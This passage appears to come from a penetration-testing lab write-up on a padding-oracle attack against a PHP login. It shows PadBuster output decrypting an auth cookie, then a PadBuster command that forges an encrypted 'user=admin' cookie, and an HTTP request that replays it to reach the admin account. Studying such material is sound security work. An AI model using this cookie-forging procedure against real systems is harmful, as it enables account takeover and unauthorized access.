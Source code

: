 ```html
Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361, line 1.
*** Starting Block 2 of 2 ***
[+] Success: (153/256) [Byte 8]
[+] Success: (13/256) [Byte 7]
[+] Success: (138/256) [Byte 6]
[+] Success: (36/256) [Byte 5]
[+] Success: (149/256) [Byte 4]
[+] Success: (107/256) [Byte 3]
[+] Success: (171/256) [Byte 2]
[+] Success: (205/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): f0bcb4c9d7bd1f78
[+] Intermediate Bytes (HEX): 3b52936ed875f166
[+] Plain Text: t
** Finished ***


[+] Decrypted value (ASCII): user=test
[+] Decrypted value (HEX): 757365723D7465737407070707070707
[+] Decrypted value (Base64): dXNlcj10ZXN0BwcHBwcHBw==
```

Now that we have our proof of concept for this vulnerability, we can take this a step further and create a cookie for any username of our choice. For this example, the goal is to create a auth token for the admin user and login. To do this we will run PadBuster again but add a slight modification to the payload:

```bash
root@warmachine:~# padbuster http://URL/login.php ajjpZSp0uZxPVZRp33L2YfC8tMnXvR94 8 --cookies auth=ajjpZSp0uZxPVZRp33L2YfC8tMnXvR94 --encoding 0 --plaintext user=admin
+-------------------------------------------+
| PadBuster - v0.3.3 |
| Brian Holyfield - Gotham Digital Science |
| labs@gdssecurity.com |
+-------------------------------------------+
…omitted for brevity…

** Finished ***
[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA```

Now that we have this auth token, we can use it to login to the admin account!!


```html
GET /index.php HTTP/1.1
Host: 192.168.134.129
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,<em>/</em>;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://burp/
Cookie: auth=BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
Connection: close
Upgrade-Insecure-Requests: 1
RESPONSE
HTTP/1.1 200 OK
Date: Fri, 24 Jul 2020 12:44:15 GMT
Server: Apache/2.2.21 (Unix) DAV/2 PHP/5.4.3
X-Powered-By: PHP/5.4.3
Content-Length: 1187
Connection: close
Content-Type: text/html
```